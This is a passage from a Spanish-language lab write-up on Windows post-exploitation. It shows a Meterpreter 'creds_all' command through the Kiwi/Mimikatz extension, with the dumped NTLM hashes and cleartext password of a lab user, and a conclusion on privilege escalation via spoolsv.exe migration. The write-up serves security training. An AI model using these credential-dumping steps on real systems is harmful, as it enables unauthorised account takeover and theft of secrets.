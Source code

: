 para este ataque utilizaremos el comando de `creds_all` para intentar conseguir todas las credenciales de los usuarios 

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

### Conclusión

Gracias a la migración hacia **`spoolsv.exe`** y el uso de la extensión **Kiwi**, fue posible:

- Escalar privilegios al nivel máximo **SYSTEM**.
- Explorar los procesos y privilegios de manera segura.
- Extraer credenciales de usuarios, incluyendo contraseñas en texto claro y hashes, lo cual es fundamental para **post-explotación y auditoría de seguridad** en un entorno controlado de laboratorio.

Este flujo representa un ejemplo completo de cómo combinar **explotación remota**, **escalamiento de privilegios** y **post-explotación con Meterpreter y Mimikatz**, respetando siempre el entorno seguro y autorizado de práctica.
